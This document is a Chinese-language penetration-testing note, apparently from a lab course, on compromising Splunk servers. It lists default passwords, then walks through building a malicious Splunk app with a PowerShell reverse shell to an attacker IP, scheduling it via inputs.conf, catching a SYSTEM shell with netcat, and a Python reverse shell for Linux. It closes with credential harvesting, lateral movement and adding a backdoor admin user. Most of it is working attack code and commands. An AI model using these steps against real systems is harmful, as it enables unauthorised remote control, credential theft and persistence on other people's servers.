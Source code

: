 ```yaml
---
description: >-
  我們在評估過程中經常會看到 Splunk，尤其是在大型企業環境中的內部滲透測試期間。我們也曾見過它暴露在外部，但是這種情況比較少見。 Splunk
  不存在太多可利用的漏洞，並且能夠快速修補任何問題。在評估期間，Splunk 的最大關注點是弱身份驗證或空身份驗證，因為 Splunk
  的管理員存取權限使我們能夠部署自訂應用程序，這些應用程式可用於快速入侵 Splunk 伺服器，並且根據 Splunk
---
```


# Splunk

## <mark style="color:red;">**1. 發現點**</mark>

* **Nmap 掃描**：

```bash
nmap -p8000,8089 -sV <target>
```

> 開放 8000（Web UI）、8089（REST API）

* 嘗試登入：

```
http://splunk.inlanefreight.local:8000
```

* 常見弱密碼：\
  `admin:changeme`、`admin:Welcome1`、`admin:password123`
* 如果試用版過期 → 轉成 **Splunk Free**，無需身份驗證！
* 如果成功登入，就可以上傳 App、執行 Python、PowerShell 腳本。

## <mark style="color:red;">**2.**</mark> 濫用內建功能

> Splunk 允許安裝「自訂 App」，而 App 裏面可以包含 `inputs.conf` 指定定時執行 script。
>
> #### (A) Clone 攻擊模板 Repo：
>
> ```bash
> git clone https://github.com/0xjpuff/reverse_shell_splunk.git
> ```
>
> > 裏面已經有好用嘅 Splunk App 結構同示範反向 shell 腳本。
>
> ***
>
> #### (B) 編輯反向 shell 腳本
>
> 進入目錄：
>
> ```bash
> cd reverse_shell_splunk/reverse_shell_splunk/bin
> ```
>
> 用你鍾意嘅編輯器開 `run.ps1`：
>
> ```powershell
> # 找到 attacker_ip_here、attacker_port_here
> # 改成你本機 IP 同 port
> $client = New-Object System.Net.Sockets.TCPClient("PWNIP",PWNPO)
> ```
>
> ⚠ 例子：
>
> ```powershell
> $client = New-Object System.Net.Sockets.TCPClient("10.10.14.15",443)
> ```
>
> ***
>
> #### (C) 檢查 `inputs.conf`
>
> `reverse_shell_splunk/reverse_shell_splunk/default/inputs.conf` 應該長這樣：
>
> ```
> [script://.\bin\run.bat]
> disabled = 0
> interval = 10
> sourcetype = shell
> ```
>
> * 代表 Splunk 會每 10 秒執行 `run.bat`，
> * 而 `run.bat` 會調用 `run.ps1`，執行 PowerShell 反彈 shell。
>
> ***
>
> #### (D) 打包成 splunk app 檔案：
>
> ```bash
> tar -cvzf updater.tar.gz reverse_shell_splunk/
> ```
>
> ***
>
> ### 3️⃣ 上傳 & 觸發
>
> * 開瀏覽器登入 Splunk：
>
> ```
> http://splunk.<target>.local:8000
> ```
>
> * Splunk 一啟用 App，就會執行 `inputs.conf` 指定腳本。
>
>

*   選：**Manage Apps → Install app from file → 選 updater.tar.gz → Upload**

    <figure><img src="../../.gitbook/assets/螢幕截圖 2025-03-19 16.00.37.png" alt="" width="200"><figcaption></figcaption></figure>

***

#### (E) 開啟監聽器：

```bash
sudo nc -lnvp 443
```

> 然後登入 Splunk Web UI\
> App → Manage Apps → Install App from File\
> 上傳 `updater.tar.gz`

* App 被啟用後，每 10 秒會執行腳本，Netcat 會接收到 SYSTEM 權限反彈 shell。

***

### 3️⃣ Linux 系統同樣方法

* 改 `rev.py` 成 Python 反向 shell：

```python
import socket,os,pty
s=socket.socket()
s.connect(("你的IP",443))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```

* 同樣打包 splunk\_shell 資料夾，透過 Web UI 上傳，即可 RCE。

## <mark style="color:red;">3. Splunk CVE 利用方向</mark>

* Splunk 曾有 SSRF 漏洞（可繞過 API 權限）
* CVE-2018-11409：可以利用 dashboard XML 文件進行 RCE
* 如果 REST API 無需驗證，可以用 API 呼叫將惡意 App 上傳或注入 script

## <mark style="color:red;">4. 連鎖漏洞</mark>

| 已取得 RCE 後可以做嘅事 | 操作                                                           |
| -------------- | ------------------------------------------------------------ |
| Windows 主機     | 檢查 `whoami` → 如果 SYSTEM 權限，即可嘗試 dump 域憑證                     |
| 搜索域帳號 / 密碼     | `dir C:\Program Files\Splunk\etc\` 找 config，有可能 plaintext 密碼 |
| Linux 主機       | `cat /opt/splunk/etc/passwd` 文件（存 local users hash）          |
| 內網掃描           | 使用 `ping`、`nmap`、`net view`、`net group /domain`              |
| 橫向移動           | 試試用抓到嘅憑證 WinRM / RDP / SMB                                   |
| 提權             | `schtasks /query` 或 `wmic` 查有冇可寫服務                           |
| 持久化            | 建立新 admin 使用者 `net user pwned P@ssw0rd /add`                 |
